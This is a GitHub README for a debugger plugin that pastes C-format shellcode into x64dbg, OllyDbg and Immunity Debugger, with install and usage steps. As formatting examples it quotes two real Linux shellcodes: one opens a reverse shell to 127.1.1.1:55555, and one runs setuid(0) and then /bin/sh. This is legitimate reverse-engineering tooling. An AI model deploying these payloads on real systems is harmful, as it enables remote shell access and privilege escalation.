






# xshellex
**WARNING**: the ugliest code in the world

With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

Please, consider make a donation: https://github.com/sponsors/therealdreg

This plugin uses shellex, my handy "C-shellcode to hex converter" tool for paste & execute shellcodes in gdb, windbg, radare2, ollydbg, 010 editor etc.
* https://github.com/therealdreg/shellex

## Install

Just download https://github.com/therealdreg/xshellex/releases/download/r0.1b/xshellex01b.zip

Extract the .zip

### x64dbg

Copy the release folder in the x64dbg folder.

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard



Use x64dbg Binary Paste (right click in disasm)



**WARNING**: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:





## Converting binary-copied-clipboard to c-shellcode string

Select area

Right click --> Binary ---> Copy



Go to Plugins --> xshellex --> clipboard to ....



## Why this plugin?

In real world yummyPaste plugin ( https://github.com/0ffffffffh/yummyPaste ) cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```

## Compilation

Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

**WARNING**: To convert ollydbg plugin to immunity debugger plugin just use auxtools\PluginFix

